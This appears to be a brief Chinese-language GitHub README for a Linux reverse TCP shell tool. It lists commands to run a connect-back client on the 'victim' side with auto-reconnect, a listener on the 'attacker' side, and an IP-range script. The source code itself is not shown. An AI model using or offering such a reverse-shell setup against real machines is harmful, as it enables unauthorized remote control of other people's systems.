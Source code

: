 # linux-tcpreverse
## 受害端反連:

python connect.py 127.0.0.1 8000

python connect1.py (斷線自動連線)
## 攻擊端開啟連線:

python reversetcp.py '' 8000

python reversetcp1.py (美化)

## 切ip網段

python ip.py

